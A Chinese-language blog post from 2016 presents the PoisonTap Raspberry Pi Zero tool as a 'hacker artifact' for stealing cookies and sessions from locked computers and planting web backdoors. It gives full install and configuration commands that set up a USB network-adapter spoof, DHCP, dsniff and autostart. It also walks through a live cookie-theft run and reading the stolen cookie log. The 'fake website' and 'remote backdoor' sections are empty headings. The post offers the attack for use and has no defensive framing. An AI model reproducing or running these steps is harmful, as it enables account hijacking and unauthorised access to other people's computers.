 ```yaml
---
title: 30秒内盗取任意PC的Cookie神器 PoisonTap
date: 2016-12-18 18:44:51
tags: Hack 
categories: Hack 
permalink: poisontap
---
```


著名黑阔Samy Kamkar利用Raspberry Pi Zero黑客神器PoisonTap，只需30秒，就可以窃取有任意密码的电脑系统下的Cookie和Session，并实现长期后门安装。PoisonTap不是暴力破解密码，而是绕过密码。

是的，买了Raspberry Pi Zero，有幸尝试了一下这个基于Node的工具，真乃神器。

<!--more-->

# 介绍

PoisonTap 通吃 Windows/Mac/Linux系统。其实现原理十分猥琐。

![](/content/images/poisontap/1.gif)

把自己伪装成有线网卡，一旦插入系统中，众所周知，所有的操作系统的规则都是这样的：

> 有线网络>无线网络

也就是说，如果他连接着Wi-Fi，没关系，系统会以我的伪网卡为最高优先级。在系统处于锁屏状态下，只要有网络通信，无论系统通信哪个都会被强制跳转到我用于 攻击你的页面 ，成批量的窃取你的Cookie和Session。

没错，就是你猜到的MITM，中间人攻击。通过PoisonTap，我们可以：

- 模拟成一个伪USB网卡
- 不需要解锁电脑就可以实现攻击
- 劫持系统所有网络连接的所有流量 包括局域网
- 窃取储存Alexa前一百万的网站的Cookie和Session
- 用远程outbound的方式进行WebSocket或DNS重绑定攻击
- 用HTTP的JS缓存禁止对该PC进行web后门安装，缓存涉及到上千个域名和cdn js缓存供应商
- 截取Cookie后可以使用该PC的Cookie进行登录，实现中间人攻击的最终目标

![](/content/images/poisontap/2.gif)

PoisonTap比你想象的更强大的是，PoisonTap能够突破以下普通MITM办不到的几点：

* 锁屏密码
* 路由表ARP的优先级设置和网络适配器优先级设置
* 同源策略 (Same-Origin Policy)
* X-Frame-Options 响应头攻击
* Cookie的HttpOnly安全设置
* Cookie的SameSite安全属性
* 两步/多步验证密码(2FA/MFA)
* DNS劫持
* 跨域资源共享CORS
* HTTPS cookie 保护

# 安装

接着昨天的零网络配置，我们不需要任何网口 WiFi 蓝牙 就可以完成配置。

注意！配置前请保证`apt-get`命令是可以用的且可以联网的，配置过程中不允许出错，否则会出大问题。

首先，我们在本机下载下来这个神器Poisontap

```bash
git clone https://github.com/samyk/poisontap
```
然后，我们用scp命令把Poisontap传到Raspberry Pi Zero上。
```bash
scp -r poisontap pi@zero.local:~
```
登录到树莓派上，运行
```bash
cd poisontap
echo -e "\nauto usb0\nallow-hotplug usb0\niface usb0 inet static\n\taddress 1.0.0.1\n\tnetmask 0.0.0.0" >> /etc/network/interfaces
echo "dtoverlay=dwc2" >> /boot/config.txt
echo -e "dwc2\ng_ether" >> /etc/modules
sudo sed --in-place "/exit 0/d" /etc/rc.local
echo "/bin/sh /home/pi/poisontap/pi_startup.sh" >> /etc/rc.local
mkdir /home/pi/poisontap
chown -R pi /home/pi/poisontap
apt-get update && apt-get upgrade
apt-get -y install isc-dhcp-server dsniff screen nodejs
```
确保以上都成功后，运行
```bash
sudo cp dhcpd.conf /etc/dhcp/dhcpd.conf
reboot
```
好了，已经安装好了，接下来我们可以Hack啦~
# Hack
## Cookie 和 Session窃取
把配置好的树莓派重新插入电脑里，这时他已经变成了黑阔神器了。

为了使攻击过程可视化，我们访问 www.google.com

![](/content/images/poisontap/4.png)

动画非常炫酷，这时候已经在窃取成千上万的网站的Cookie了，吃个小饼干。

![](/content/images/poisontap/5.png)

打开Chrome的工具看一看，哇。

随后，Cookie都被保存在树莓派里了，我们连接上树莓派的SSH，看一下，成功。

```bash
cat poisontap.cookies.log
```

![](/content/images/poisontap/3.png)

## 伪造网站


## 远程后门


# 参考
https://github.com/samyk/poisontap
